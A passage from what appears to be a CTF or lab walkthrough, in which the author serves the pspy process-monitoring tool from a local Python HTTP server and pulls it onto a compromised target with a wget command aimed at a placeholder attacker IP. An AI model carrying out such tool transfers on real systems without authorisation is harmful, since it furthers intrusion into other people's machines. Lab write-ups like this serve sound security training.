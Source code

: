 Next, I used `PsPy` \[ [https://github.com/DominicBreuker/pspy/releases/](https://github.com/DominicBreuker/pspy/releases/) ] tool to check out for active processes.

Since, out target machine doesn’t have a internet connection, we have to move it from our local machine to the target machine. For that first we have to download pspy on our local machine.

<figure><img src="../../.gitbook/assets/Untitled 26 (2).png" alt=""><figcaption></figcaption></figure>

After downloading pspy, its time to move it to the target machine.

Start a simple python http server on our local machine in the same directory where the pspy tool is located.

<figure><img src="../../.gitbook/assets/Untitled 27 (2).png" alt=""><figcaption></figcaption></figure>

Now in the target machine, download the tool using `wget`.

Command: `wget http://<LocalMachine_tun0_IP>/pspy64`

<figure><img src="../../.gitbook/assets/Untitled 28 (1).png" alt=""><figcaption></figcaption></figure>
